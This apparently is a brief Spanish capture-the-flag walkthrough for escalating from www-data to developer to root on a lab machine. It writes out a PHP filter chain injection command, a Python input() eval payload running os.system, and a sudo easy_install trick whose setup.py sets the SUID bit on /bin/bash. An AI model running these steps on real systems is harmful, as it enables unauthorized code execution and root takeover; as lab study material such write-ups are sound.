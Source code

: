 ```BASH
python php_filter_chain_generator.py --chain '<?php echo "M0B was here"; ?>'
```

___
# www-data a developer

Aquí hay RCE porque input evalua todo lo que le pasas:

```python
import requests

url = input("Enter URL here:")
page = requests.get(url)
if page.status_code == 200:
	print "Website is up"
else:
	print "Website is down"
```

```python
__import__('os').system('id')
```

# developer a root

Tiramos de gfto BINS
```
(ALL) NOPASSWD: /usr/local/bin/easy_install
```

`setup.py`
```python
__import__('os').system('chmod u+s /bin/bash')
```

```bash
sudo easy_install /tmp/ 
```
